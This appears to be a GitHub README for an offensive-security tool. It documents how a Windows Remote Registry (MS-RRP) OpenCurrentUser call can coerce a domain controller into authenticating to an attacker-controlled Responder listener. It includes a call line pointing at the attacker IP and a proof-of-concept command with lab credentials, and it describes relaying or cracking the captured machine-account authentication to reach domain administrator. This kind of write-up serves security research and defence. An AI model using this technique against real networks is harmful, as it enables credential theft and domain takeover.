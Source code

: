 # MS-RRP - Remote call to OpenCurrentUser (opnum 1)

## Summary

+ **Protocol**: [[MS-RRP]: Windows Remote Registry Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78)

+ **Protocol UUID**: 338cd001-2244-31f1-aaaa-900038001003

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\PIPE\winreg`

+ **Function name**: [`OpenCurrentUser`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/ec140ed9-4d00-4c03-a15c-c7245a497ed5)

+ **Function operation number**: `1`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\winreg` and bind to the desired [`MS-RRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) protocol (with uuid `338cd001-2244-31f1-aaaa-900038001003` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-RRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\winreg` This pipe is connected to the protocol [[MS-RRP]: Windows Remote Registry Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) and allows to call RPC functions of this protocol. We will then call the remote [`OpenCurrentUser`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/ec140ed9-4d00-4c03-a15c-c7245a497ed5) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
OpenCurrentUser('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t OpenCurrentUser(
   [in, unique] PREGISTRY_SERVER_NAME ServerName,
   [in] REGSAM samDesired,
   [out] PRPC_HKEY phKey
 );
```

## References

+ Documentation of protocol [MS-RRP]: Windows Remote Registry Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78

+ Documentation of function `OpenCurrentUser`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/ec140ed9-4d00-4c03-a15c-c7245a497ed5